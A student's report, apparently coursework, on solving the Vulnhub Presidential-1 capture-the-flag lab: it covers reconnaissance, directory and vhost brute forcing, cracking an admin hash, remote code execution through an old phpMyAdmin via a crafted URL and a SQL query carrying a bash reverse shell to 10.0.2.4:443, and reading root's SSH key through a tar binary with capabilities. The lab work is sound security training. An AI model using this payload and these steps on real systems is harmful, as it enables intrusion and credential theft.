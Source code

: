# Report Cybersecurity : Presidential Hacking
Simone Cossaro IN2000201

## Introduction

This report presents the steps taken to solve the Vulnhub CTF (Capture the Flag) challange called Presidential-1. 

The attack was carried out following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

In the presented scenario the US state is developing the registration website for the presidential elections and wants to test the security of the server before the website and registration system are launched. One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system and falsifying the votes.

The goal of the challenge is to gain root access to the server.

## Tools

VirtualBox is the tool needed for this challenge to run the following two virtual machines:
* the Presidential VM available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
The two virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the process of discovering live hosts on a network. Executing it will first allow us to find out if the presidential machine is connected to the network and if so what its IP address is. 

Once the IP address of the machine has been determined, we proceed by trying to identify the services and open ports and the software versions on it. The `nmap` command allows us to do this.

![Steps of recognition](images/reconnaissance.png)  

The scan shows that the machine is running a web service on port 80 with http protocol and a remote shell on port 2082 with ssh protocol.

## Enumeration

By visiting the main page of the web service on port 80, you will find an email address at the bottom (contact@votenow.local). This way we get a domain name: votenow.local.
It's possible to associate the domain name with the IP address by adding a line to the /etc/hosts file.

In this enumeration phase, the use of Gobuster, a tool for scanning directories and files on web servers, is essential. It is used to locate hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but may still be accessible.
The gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist such as potential directory, file, subdomain, etc., until it finds valid resources or runs out of options.

![Steps of enumeration](images/enumeration.png)  

A config.php.bak file was detected. Usually these files contain a backup copy of the original config.php file. It in turn contains configuration information that may be important.
In fact, the file contains the user's credentials which could prove useful later.

## Exploiting

Using Gobuster, this time with the vhost option, subdomains can be found. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt) a single subdomain was found: datasafe.votenow.local.
On the web page that is obtained by connecting to the subdomain, there is an access panel to "phpMyAdmin". By entering the credentials obtained previously it is possible to log in and by navigating the page you can access a SQL database containing the hash of the password of an admin user.

The hash alone cannot be used. John the Ripper is a tool to use to crack the password. With the famous rockyou dictionary you can force the password corresponding to the hash, which turns out to be Stella.

Browsing the page another thing you can easily notice is that the version of phpMyAdmin is old. Searchsploit is a tool that can be used to search for known exploits and vulnerabilities in different versions of software and operating systems.
It turns out there are three vulnerabilities, one of which has command execution as impact. Searchsploit can give us more information about this vulnerability and how it can be exploited.
To exploit this vulnerability it is necessary to:
1) be authenticated
2) get the phpMyAdmin cookie
3) run a SQL query
4) edit the URL accurately.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

On the web page we are allowed to execute SQL queries.

The normal functioning of the web application does not allow the interpretation and execution of code inserted in the backticks. However, by carefully structuring the URL and inserting a php script between backticks into a SQL query, it is possible to obtain the execution of the script.
The URL must have the following format:
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/ php/session/sess_{cookieValue}
where {cookieValue} is the cookie value of a current session.

By listening to a netcat listener on port 443 and then injecting a SQL query like this:
select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'
and by structuring the URL in the way illustrated, you obtain a reverse shell on the presidential machine.

![Exploitation of the vulnerability](images/sql_vuln.png)

At this point you can authenticate with the admin user credentials extracted previously.

![Reverse shell connection and authentication](images/reverse_shell.png)


## Privilege Escalation

The next step is to list the capabilities associated with the available executable files with the getcap command. this way we see that we have "+EP" in the tarS binary. This binary allows us to compress any file on the system without being root. Therefore, once compressed, we will only have to decompress it to be able to read the contents of the file.
There is an id_rsa file in the /root/.ssh/ directory. This file usually contains an RSA private key used for SSH authentication. This private key is associated with a public/private key pair and is used to authenticate the user on remote servers via SSH.
By having '+ep' we can compress the “id_rsa“ file, decompress it and gain visibility to the content.

The tarS -xvf id_rsa.tar /root/.ssh/id_rsa command creates a tar archive called id_rsa.tar containing the id_rsa file present in the /root/.ssh/ directory.

The tar -xvf id_rsa.tar command, however, extracts the files from the id_rsa.tar archive.

After executing these two commands, the id_rsa file can be read.

Now having the RSA private key, we can remotely connect to the shell on the presidential machine via the ssh protocol.
